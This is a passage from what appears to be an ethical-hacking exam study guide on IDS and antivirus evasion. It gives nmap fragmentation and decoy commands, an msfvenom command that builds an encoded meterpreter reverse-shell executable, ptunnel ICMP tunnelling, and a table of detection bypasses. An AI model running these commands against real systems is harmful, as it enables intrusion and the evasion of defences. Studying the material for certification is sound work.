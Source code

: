 nmap -f -D RND:3 -T2 --source-port 53 10.10.10.10

msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -f exe

ptunnel -p 10.10.10.10 -lp 1080 -da 192.168.1.100 -dp 22

  

### Exam-Critical Reference Table

  

| Technique            | Tool     | Command Example          | Detection Bypass                 |

| -------------------- | -------- | ------------------------ | -------------------------------- |

| Packet Fragmentation | Nmap     | `nmap -f --mtu 24`       | Defeats simple packet inspection |

| Payload Encoding     | MSFVenom | `-e x86/shikata_ga_nai`  | Anti-virus evasion               |

| Protocol Tunneling   | Ptunnel  | `ptunnel -p attacker_ip` | ICMP whitelisting                |

| Time Delay           | Nmap     | `--scan-delay 5s`        | Throttle-based detection         |

  

### Practical Exam Checklist

  

1. Perform fragmented scan against target

2. Generate encoded payload with MSFVenom

3. Set up ICMP covert channel

4. Bypass simple Snort rule with obfuscation

5. Document all evasion techniques used

  

### Pro Tips:

  

- **Always combine techniques**: `nmap -f -T2 -D RND:3 --source-port 53`

- **Critical ports to spoof**: 53 (DNS), 80 (HTTP), 443 (HTTPS)

- **Exam trick**: Use `--badsum` to test IDS robustness

- **Must-know encoders**: `shikata_ga_nai`, `call4_dword_xor`

  
  
**[Back to top](#top)**

___

## Module 13: Hacking Web Servers
